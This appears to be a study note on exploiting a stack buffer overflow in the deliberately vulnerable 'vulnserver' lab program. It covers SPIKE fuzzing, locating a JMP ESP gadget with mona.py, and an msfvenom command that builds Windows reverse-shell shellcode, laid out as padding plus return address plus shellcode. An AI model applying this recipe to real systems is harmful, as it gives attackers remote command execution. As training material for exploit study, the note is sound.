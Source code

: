 # Buffer Over flow

EIP is a register in x86 architectures (32bit). 
- It holds the "Extended Instruction Pointer" for the stack. 
- It tells the computer where to go next to execute the next command and controls the flow of a program.
		
ESP (Extended Stack Pointer)

EBP (Extended Base Pointer)
		
		
Input data -> manipulate EIP -> Run JMP ESP -> data transfered to code.
- https://datacellsolutions.com/2020/09/23/exploiting-a-simple-stack-based-buffer-overflow-vulnerability/
		
	
```	# nc [ip] [port] ```
- connect to target.		
		
## Spike & Fuzzing
		
- https://resources.infosecinstitute.com/topic/intro-to-fuzzing/
- https://resources.infosecinstitute.com/topic/fuzzer-automation-with-spike/
- Fuzzing is a process of sending deliberately malformed data to a program in order to generate failures, or errors in the application. When performed by those in the software exploitation community, fuzzing usually focuses on discovery of bugs that can be exploited to allow an attacker to run their own code, and along with binary and source code analysis fuzzing is one of the primary ways in which exploitable software bugs are discovered.
- Technically speaking, SPIKE is actually a fuzzer creation kit, providing an API that allows a user to create their own fuzzers for network based protocols using the C programming language.
		
		
```	# pluma stats.spk ```
- "STATS" is a command of the vulnerable server.
			
``` # generic_send_tcp 10.10.10.10 9999 stats.spk 0 0 ```
- generic_send_tcp host port spike_script SKIPVAR SKIPSTR.
- generic_send_tcp: TCP SPIKE script interpreter.send the specified SPIKE at a particular IP address and TCP port.
- stats.spk is the spike_script, and 0 and 0 are the values of SKIPVAR and SKIPSTR, which essentially allow you to jump into the middle of the fuzzing session defined by a SPIKE script.
- if you include three “s_string_variables” in your SPIKE script, and you want to ignore the first two variables and only fuzz the third, you would set SKIPVAR to 2
- If you want to skip the first 10 of these strings, and start fuzzing at string 11, you can set SKIPSTR to 10.
		
``` # pluma trun.spk ```
- "TRUN" is a command of the vulnerable server.
			
```c			
s_readline(); // Reads a single line of input from the server
s_string("string"); // simply prints the string “string” as part of your “SPIKE”
s_string_variable("string"); // inserts a fuzzed string into your “SPIKE”. The string “string” will be used for the first iteration of this variable, as well as for any SPIKES where other s_string_variables are being iterated
```

## use mona.py in Immunity Debugger.
in mona software ``` !mona modules ```
- The essfunc.dll has no memory protection
- ASLR: Address space layout randomization.
	
### nasm_shell.rb
This script is used to convert assembly language into hex code.
- input: JMP ESP
- utput: FFE4
				
In debugger ``` !mona find -s “\xff\xe4” -m essfunc.dll ```
		
x86 is little endian, 
  - 0x625011af:	
  - need to encode it as \xaf\x11\x50\x62
	
generate shell code.
``` msfvenom -p windows/shell_reverse_tcp LHOST=[Local IP Address] LPORT=[Listening Port] EXITFUNC=thread -f c -a x86 -b "\x00" ```
	
shellcode.py
- Padding + JMP ESP + shellcode
- Now, the question here arises what is ‘JMP ESP’ and why do we use it. Putting it simply, ‘JMP ESP’ means ‘Jump to the ESP register.’ We will place our shellcode on top of our stack frame, for that reason we need the memory address of JMP ESP. We’ll inject this return address into the EIP, and as vulnserver starts its execution, after overflowing the buffer space, it’ll look into the EIP for the next instruction, where it will find the JMP ESP opcode, so it’ll jump back to the ESP, where it will find our shellcode, execute the code and give us command execution into the system.
- Input data -> manipulate EIP -> Run JMP ESP -> data transfered to code.
